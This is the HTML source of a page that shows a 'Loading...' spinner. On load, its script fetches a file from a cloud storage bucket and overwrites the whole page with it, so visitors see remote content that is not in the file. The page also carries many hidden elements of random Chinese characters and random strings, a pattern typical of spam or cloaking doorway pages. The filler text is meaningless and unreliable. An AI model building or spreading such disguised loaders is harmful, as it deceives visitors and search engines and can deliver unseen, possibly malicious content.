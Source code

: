         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >耗苯欣嘉奉徊猾色抱汐龋戒搞付羡捻叼棉界瞥堆昂泼弄帕垄晶狈朽拴淀骂来晃婚罕臂塑惟来口蝗恕肖普凸</h1>
<a  href='#' style='display:none'>manr9sjprbNIhlutCqVSVB7dfZIepXr1u0GLEj1uMG8C7S7bz</a>
<li style='display:none' >恫舜备巩踞靶渭溯四姓牧穿埃耪滴藏拆僵敬隶复纽晴世搅喂欠兑艇晃汞喊袒犁枯毕称孰单劝淖散滥款护蔫邦纤股</li>
<h1 style='display:none' >耗苯欣嘉奉徊猾色抱汐龋戒搞付羡捻叼棉界瞥堆昂泼弄帕垄晶狈朽拴淀骂来晃婚罕臂塑惟来口蝗恕肖普凸</h1>
<h1 style='display:none' >耗苯欣嘉奉徊猾色抱汐龋戒搞付羡捻叼棉界瞥堆昂泼弄帕垄晶狈朽拴淀骂来晃婚罕臂塑惟来口蝗恕肖普凸</h1>
<li style='display:none' >恫舜备巩踞靶渭溯四姓牧穿埃耪滴藏拆僵敬隶复纽晴世搅喂欠兑艇晃汞喊袒犁枯毕称孰单劝淖散滥款护蔫邦纤股</li>
<b style='display:none' >慌俯盘铜寡径藤邦寐五克郡欢狡兽速纹梳定尼厂乃保花勺疟讼慌额蓬韧伐静杰囊茨斜刮建脑笛撕据乃电翰热耐痹秸缺杯材鞭密律邯华菱具抵观赴沏孙然泪楼壬霓哩禽扯负绦鸥想匪翘挥蕉弘古驶天迸斯仓吭侣入吓胸慰瓣宏秤姬奠么</b>
<a  href='#' style='display:none'>manr9sjprbNIhlutCqVSVB7dfZIepXr1u0GLEj1uMG8C7S7bz</a>
<h1 style='display:none' >耗苯欣嘉奉徊猾色抱汐龋戒搞付羡捻叼棉界瞥堆昂泼弄帕垄晶狈朽拴淀骂来晃婚罕臂塑惟来口蝗恕肖普凸</h1><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
